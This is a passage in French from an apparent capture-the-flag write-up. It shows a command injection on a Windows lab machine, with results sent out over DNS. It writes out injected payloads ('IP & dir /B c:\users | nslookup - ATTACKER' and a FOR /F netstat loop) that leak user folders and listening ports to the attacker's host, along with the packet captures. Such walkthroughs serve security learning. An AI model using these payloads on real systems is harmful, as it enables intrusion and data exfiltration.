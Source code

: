 Nous envoie 5 pings prouvant que le dossier *inetpub* existe. Il en va de même pour *inetpub/ftproot* mais impossible d'aller plus profond, certainement en raison de permissions.  

On voit aussi que *c:\users\alan* existe mais qu'il ne semble pas y avoir le flag *user.txt* dans son bureau.  

On ne vas pas aller bien loin avec juste de l'ICMP... Il est temps de tester autre chose et c'est là qu'intervient DNS :  

```plain
10.10.14.221 & nslookup test.com 10.10.14.221
Capturing on 'tun0'
    1 0.000000000 10.10.10.106 → 10.10.14.221 DNS 71 Standard query 0x0001 PTR 221.14.10.10.in-addr.arpa
    2 2.002584547 10.10.10.106 → 10.10.14.221 DNS 54 Standard query 0x0002 A test.com
    3 4.009062791 10.10.10.106 → 10.10.14.221 DNS 54 Standard query 0x0003 AAAA test.com
    4 6.293979213 10.10.10.106 → 10.10.14.221 DNS 54 Standard query 0x0004 A test.com
    5 8.183692056 10.10.10.106 → 10.10.14.221 DNS 54 Standard query 0x0005 AAAA test.com
```

Super ! On peut générer des requêtes DNS vers notre machine. On peut dès lors chaîner une commande vers *nslookup* (la première ligne est l'injection, la suite la capture réseau) :  

```plain
10.10.14.221 & dir /B c:\users | nslookup - 10.10.14.221
   8 333.059294275 10.10.10.106 → 10.10.14.221 DNS 50 Standard query 0x0002 A v4.5
    9 335.055060550 10.10.10.106 → 10.10.14.221 DNS 50 Standard query 0x0003 AAAA v4.5
   10 337.070413003 10.10.10.106 → 10.10.14.221 DNS 50 Standard query 0x0004 A v4.5
   11 339.070868777 10.10.10.106 → 10.10.14.221 DNS 50 Standard query 0x0005 AAAA v4.5
   12 341.377915374 10.10.10.106 → 10.10.14.221 DNS 59 Standard query 0x0006 A Administrator
   13 343.575303138 10.10.10.106 → 10.10.14.221 DNS 59 Standard query 0x0007 AAAA Administrator
   14 345.637335569 10.10.10.106 → 10.10.14.221 DNS 50 Standard query 0x0008 A alan
   15 347.630580121 10.10.10.106 → 10.10.14.221 DNS 50 Standard query 0x0009 AAAA alan
   16 349.673693304 10.10.10.106 → 10.10.14.221 DNS 51 Standard query 0x000a A jorge
   17 351.665409391 10.10.10.106 → 10.10.14.221 DNS 51 Standard query 0x000b AAAA jorge
   18 354.056552932 10.10.10.106 → 10.10.14.221 DNS 52 Standard query 0x000c A Public
   19 356.052877169 10.10.10.106 → 10.10.14.221 DNS 52 Standard query 0x000d AAAA Public
   20 358.061412690 10.10.10.106 → 10.10.14.221 DNS 51 Standard query 0x000e A rupal
   21 360.103338021 10.10.10.106 → 10.10.14.221 DNS 51 Standard query 0x000f AAAA rupal
```

Certes ce n'est pas parfait car *nslookup* ne vas émettre de requêtes pour les entrées ayant un format valide. C'est pour cela que j'utilise le mode condensé de *dir* avec l'option /B.  

On devine aussi que le nom de dossier v4.5 est incomplet et qu'il y a quelque chose probablement devant.  

Tout cela est suffisant pour fouiller dans *c:\inetpub\wwwroot*. On peut même utiliser l'astérisque lorsque l'on dispose seulement d'une partie d'un nom.  

On peut pousser encore plus loin le vice en utilisant la commande [loop](https://ss64.com/nt/for.html) et sa syntaxe bizarre pour obtenir les ports en écoute :  

```plain
10.10.15.30 & FOR /F "tokens=2 skip=4" %Y IN ('netstat -a -p tcp') do nslookup %Y 10.10.15.30
0.0.0.0:135
0.0.0.0:3389
0.0.0.0:445
0.0.0.0:47001
0.0.0.0:49664
0.0.0.0:49665
0.0.0.0:49666
0.0.0.0:49667
0.0.0.0:49668
0.0.0.0:49669
0.0.0.0:5985
0.0.0.0:80
0.0.0.0:8080
AAAA
```